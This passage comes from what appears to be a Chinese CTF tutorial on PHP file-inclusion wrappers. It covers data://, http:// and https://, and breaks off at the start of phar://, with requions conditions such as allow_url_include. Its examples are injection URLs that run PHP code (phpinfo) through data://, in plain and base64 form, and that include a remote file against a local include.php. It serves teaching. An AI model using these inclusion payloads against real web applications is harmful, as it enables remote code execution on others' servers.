 - **用法**：

  ```
  data://text/plain,
  data://text/plain;base64,
  ```

- **示例**：

  1. `data://text/plain,`

     ```
     http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBB)

  2. `data://text/plain;base64,`

     ```
     http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBD)

## `http:// & https://` 协议

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：常规 URL 形式，允许通过 `HTTP 1.0` 的 GET方法，以只读访问文件或资源。CTF中通常用于远程包含。

- **用法**：

  ```
  http://example.com
  http://example.com/file.php?var1=val1&var2=val2
  http://user:password@example.com
  https://example.com
  https://example.com/file.php?var1=val1&var2=val2
  https://user:password@example.com
  ```

- **示例**：

  ```
  http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
  ```

  ![图片描述](https://segmentfault.com/img/bVbrQBP)

## `phar://` 协议

`phar://`协议与`zip://`类似，同样可以访问zip格式压缩包内容，在这里只给出一个示例：
